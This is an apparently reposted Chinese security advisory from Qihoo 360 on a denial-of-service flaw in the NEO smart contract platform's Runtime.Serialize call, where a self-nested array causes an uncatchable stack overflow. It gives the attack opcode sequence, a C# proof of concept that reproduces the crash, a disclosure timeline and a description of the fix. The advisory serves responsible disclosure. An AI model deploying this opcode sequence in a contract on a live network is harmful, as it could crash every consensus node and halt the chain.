 > 原文链接: https://www.anquanke.com//post/id/156714 


# neo智能合约平台Runtime_Serialize调用拒绝服务漏洞


                                阅读量   
                                **158788**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/dm/1024_576_/t010ec0c936b96bb55c.jpg)](https://p2.ssl.qhimg.com/dm/1024_576_/t010ec0c936b96bb55c.jpg)

作者：Zhiniang Peng from Qihoo 360 core security



NEO是一个非盈利的社区化的区块链项目。它是利用区块链技术和数字身份进行资产数字化，利用智能合约对数字资产进行自动化管理，实现“智能经济”的一种分布式网络。目前Neo市值在coinmarket上排名全球第十五，是备受关注的区块链项目之一。我们在neo智能合约平台中发现一处拒绝服务漏洞，攻击者可利用该漏洞在瞬间使得整个neo网络崩溃。

Neo智能合约平台为合约提供了序列化虚拟机栈上某个对象的系统调用System.Runtime.Serialize。该调用再处理合约请求时未考虑到数组嵌套等问题，将导致智能合约系统平台crash。由于Neo目前是有7个主节点负责验证并打包全网交易。恶意用户将利用该漏洞的恶意合约发布到neo网络中，7个主节点在解析运行该恶意合约时将引发崩溃，进而导致整个neo网络拒绝服务。漏洞细节如下：<br>
System.Runtime.Serialize系统调用会将用户可执行栈顶元素pop出来，然后调用SerializeStackItem函数进行序列化。SerializeStackItem函数内容如下：

[![](https://p0.ssl.qhimg.com/t01bf32fdc0f46d61a3.png)](https://p0.ssl.qhimg.com/t01bf32fdc0f46d61a3.png)

大意是：当合约调用System.Runtime.Serialize系统调用的时候，会对pop出虚拟机栈上的第一个元素(参数StackItem item)，然后进行SerializeStackItem序列化操作,写到binarywriter writer中。SerializeStackItem判断该元素类型，然后进行不同的序列化操作。

其中StackItem有很多类型。如果是数组array类型的话。就会将array的大小和子元素全部再进行一次序列化操作。这里的array是neo自定义的类型。本质上是一个List。此处没有考虑攻击者可能将数组a作为子元素再加入到数组a中。即 a.Add(a)。如果此时再对a进行反序列化，则会进入无限循环。直到程序栈空间耗尽。触发栈溢出异常StackOverflowException。

实际上在Neo虚拟机代码中，我们可以看到虚拟机执行的外层已经对任意异常了捕捉，如下：

[![](https://p4.ssl.qhimg.com/t018125800aa71127b3.png)](https://p4.ssl.qhimg.com/t018125800aa71127b3.png)

但该异常捕捉无法处理StackOverflowException异常。在.net中StackOverflowException 异常会导致整个进程退出，无法catch该异常。进而导致整个neo节点进程直接崩溃。<br>
攻击虚拟机指令： push(a), dup(), dup(), appen(), System.Runtime.Serialize()<br>
则可导致栈溢出异常，程序直接崩溃。【同理，stuct结构，map结构一样可以利用该漏洞】。

值得一提的是，在我们邮件给Neo官方通知漏洞后7分钟内。Neo创始人之一的Erik Zhang就直接回复邮件确认漏洞存在，并在一个小时内提交漏洞修复。效率相当之高。 官方的对该漏洞修复非常干净，通过增加一个序列化后元素的列表List来防止我们攻击中的这种迭代引用。详细见下图：

[![](https://p1.ssl.qhimg.com/t01506604ff3d99624a.png)](https://p1.ssl.qhimg.com/t01506604ff3d99624a.png)



## 漏洞时间线

2018/8/15 15:00发现并测试漏洞<br>
2018/8/15 18:57邮件给Neo官方漏洞细节<br>
2018/8/15 19:04 Neo官方回复确认漏洞存在<br>
2018/8/15 20:00 Neo创始人Erik Zhang提交漏洞修复



## PoC

```
1. using System;
 2. using System.Collections.Generic;
 3. using System.IO;
 4. using System.Linq;
 5. using System.Text;
 6. using System.Threading.Tasks;
 7. using Neo;
 8. using Neo.IO;
 9. using Neo.SmartContract;
 10. using Neo.VM;
 11. using Neo.VM.Types;
 12. using VMArray = Neo.VM.Types.Array;
 13. using VMBoolean = Neo.VM.Types.Boolean;
 14.
 15. namespace ConsoleApp2
 16. `{`
 17. class Program
 18. `{`
 19. public static void SerializeStackItem(StackItem item, BinaryWriter writer)
 20. `{`
 21. switch (item)
 22. `{`
 23. case ByteArray _:
 24. writer.WriteVarBytes(item.GetByteArray());
 25. break;
 26. case VMBoolean _:
 27. writer.Write(item.GetBoolean());
 28. break;
 29. case Integer _:
 30. writer.WriteVarBytes(item.GetByteArray());
 31. break;
 32. case InteropInterface _:
 33. throw new NotSupportedException();
 34. case VMArray array:
 35. writer.WriteVarInt(array.Count);
 36. foreach (StackItem subitem in array)
 37. SerializeStackItem(subitem, writer);
 38. break;
 39. case Map map:
 40. writer.WriteVarInt(map.Count);
 41. foreach (var pair in map)
 42. `{`
 43. SerializeStackItem(pair.Key, writer);
 44. SerializeStackItem(pair.Value, writer);
 45. `}`
 46. break;
 47. `}`
 48. `}`
 49. static void Main(string[] args)
 50. `{`
 51. VMArray a,b;
 52. a = new VMArray();
 53. b = new VMArray();
 54. a.Add(1);
 55. b.Add(2);
 56. MemoryStream ms = new MemoryStream();
 57. BinaryWriter writer = new BinaryWriter(ms);
 58.
 59. RandomAccessStack Stack = new RandomAccessStack();
 60. Stack.Push(a);
 61. Stack.Push(Stack.Peek());
 62. Stack.Push(Stack.Peek());
 63. StackItem newItem = Stack.Pop();
 64. StackItem arrItem = Stack.Pop();
 65. if (arrItem is VMArray aray)
 66. `{`
 67. aray.Add(newItem);
 68. `}`
 69. try
 70. `{`
 71. SerializeStackItem(Stack.Pop(), writer);
 72. `}`
 73. catch (NotSupportedException)
 74. `{`
 75. Console.WriteLine("NotSupportedException");
 76. `}`
 77. catch (StackOverflowException)
 78. `{`
 79. Console.WriteLine("StackOverflowException");
 80. `}`
 81. writer.Flush();
 82.
 83. Console.WriteLine(ms.ToArray().ToHexString());
 84.
 85.
 86. `}`
 87. `}`
```

程序运行结果：

[![](https://p5.ssl.qhimg.com/t0110be951571e76287.png)](https://p5.ssl.qhimg.com/t0110be951571e76287.png)
